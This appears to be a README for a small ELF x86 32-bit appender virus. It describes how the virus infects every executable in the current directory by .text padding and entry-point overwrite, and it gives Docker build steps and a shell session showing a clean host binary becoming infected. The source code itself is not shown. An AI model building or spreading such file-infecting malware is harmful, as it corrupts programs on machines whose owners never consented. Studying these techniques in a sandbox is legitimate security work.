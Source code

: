 ELF x86 32bit appender virus in 800b
====================================
The virus infects every infectable elf executable in the current directory using [Silvio's](https://en.wikipedia.org/wiki/Silvio_Cesare) classic .text section padding technique. Without debugging symbols it comes in at 800b

* mmap host for improved efficiency 
* virus length using jmp trick so no bootstrapping
* overwrites ELF header entry point

Compile
-------

The virus now runs in docker although you do not have to use docker. To compile the image run 

`docker build -t virus .`. 

To run the image use the `docker.sh` script. Once inside the docker container do `cd /virus/ && make` to compile. The virus code and host will be stored in `/tmp`

```
18:57 $ ./docker.sh

root@5d3f53a66f94:/# cd /virus/
root@5d3f53a66f94:/virus# make
root@5d3f53a66f94:/virus# cd /tmp/

root@203ff78bcad2:/tmp# ./host
hello world

root@5d3f53a66f94:/tmp# ./info.sh host
**** host ****
cb261f205ba23d2fcc49fecbcd91e072  host
entry point address:              0x8048320
host is clean

root@5d3f53a66f94:/tmp# ./info.sh appender
**** appender ****
81cb4c926b9da8cea19806f1fda2c658  appender
entry point address:              0x80482f0
appender is infected

root@203ff78bcad2:/tmp# ./appender
infect
root@203ff78bcad2:/tmp# ./host
infect
hello world

root@5d3f53a66f94:/tmp# ./info.sh host
**** host ****
72f68dd92d78201725a85b4b00254848  host
entry point address:              0x80485bd
host is infected
```
